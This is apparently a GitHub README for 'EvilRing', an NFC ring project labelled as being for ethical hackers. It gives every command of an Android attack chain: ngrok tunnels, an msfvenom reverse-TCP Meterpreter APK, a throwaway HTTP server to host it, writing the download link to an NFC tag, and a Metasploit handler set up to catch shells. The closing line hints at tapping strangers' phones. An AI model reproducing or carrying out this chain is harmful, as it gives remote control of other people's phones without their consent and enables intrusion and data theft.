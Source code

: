 # EvilRing
EvilRing: An NFC Ring for ethical hackers

Setup:

1. Install ngrok using the following commands:
  
`wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz`

`tar -xzvf ngrok-v3-stable-linux-amd64.tgz`

`chmod +x ngrok`

`sudo mv ngrok /usr/local/bin/ngrok`

`rm ngrok-v3-stable-linux-amd64.tgz`

`ngrok config add-authtoken YOUR-AUTH-TOKEN-HERE`


2. Create an ngrok TCP tunnel

(Free Version)

`ngrok tcp 4242`

(Paid Version) - Recommended -

Start your reserved TCP tunnel from ngrok dashboard and then connect to it from your terminal. 
This way the connection is persistent anywhere in the world. 
Replace the stars with your specific ngrok address and port number. 4242 will be the port we listen to locally for connections on metasploit.

`ngrok tcp --region=us --remote-addr=*.tcp.ngrok.io:* 4242`

3. Generate your payload with msfvenom, change the ngrok variables:
  
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<ngrok tunnel ip> LPORT=<ngrok tunnel port> -o evilring.apk`

4. Serve your file from a direct-download link (like python3 httpserver and another ngrok tunnel for toss-away file host):
  
`python3 -m http.server 8080`

`ngrok http 8080`

5. Copy your direct download link to your NFC ring (http://***.***/evilring.apk)
This can be done with the proxmark3, chameleon tiny, or even just an NFC enabled device using the NFC Tools app.

6. On your command and control open msfconsole:
  
`msfconsole`

(inside msfconsole)

`use exploit/multi/handler`

`set payload android/meterpreter/reverse_tcp`

`set LHOST 0.0.0.0`

`set LPORT 4242`

`set ExitOnSession false`

`exploit -j`
  
7.  (Dont) go an hold onto some phones!
